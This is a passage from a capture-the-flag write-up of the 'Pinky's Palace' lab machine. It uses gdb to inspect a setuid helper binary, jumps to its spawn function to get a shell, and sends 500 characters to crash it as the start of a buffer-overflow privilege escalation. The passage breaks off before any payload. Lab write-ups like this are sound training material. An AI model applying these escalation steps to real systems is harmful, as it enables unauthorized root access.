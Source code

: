 ```console
pinky@pinkys-palace:~$ whereis gdb
gdb: /usr/bin/gdb /etc/gdb /usr/include/gdb /usr/share/gdb

pinky@pinkys-palace:~$ gdb -q ./adminhelper 
Reading symbols from ./adminhelper...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000000618  _init
0x0000000000000640  strcpy@plt
0x0000000000000650  puts@plt
0x0000000000000660  execve@plt
0x0000000000000670  setegid@plt
0x0000000000000680  seteuid@plt
0x00000000000006a0  _start
0x00000000000006d0  deregister_tm_clones
0x0000000000000710  register_tm_clones
0x0000000000000760  __do_global_dtors_aux
0x00000000000007a0  frame_dummy
0x00000000000007d0  spawn
0x0000000000000813  main
0x0000000000000860  __libc_csu_init
0x00000000000008d0  __libc_csu_fini
0x00000000000008d4  _fini
```

In the output we can see a spawn function, this one catches my attention, I added a breakpoint in the main function, ran it, and jumped to the spawn function and a dash shell was executed, but we aren't root.

```console
(gdb) break main
Breakpoint 1 at 0x817
(gdb) run
Starting program: /home/pinky/adminhelper 

Breakpoint 1, 0x0000555555554817 in main ()
(gdb) jump spawn
Continuing at 0x5555555547d4.
process 2365 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
$ whoami
pinky
```

To escalate to root, we need to run our malicious instructions outside of gdb, so I run the binary with 500 characters to provoke a crash.

```console
(gdb) run $(python -c 'print("A"*500)')  
Starting program: /home/pinky/adminhelper $(python -c 'print("A"*500)')
                                                           
Program received signal SIGSEGV, Segmentation fault.      
next_env_entry (position=<optimized out>) at arena.c:220     
220     arena.c: No such file or directory.
```
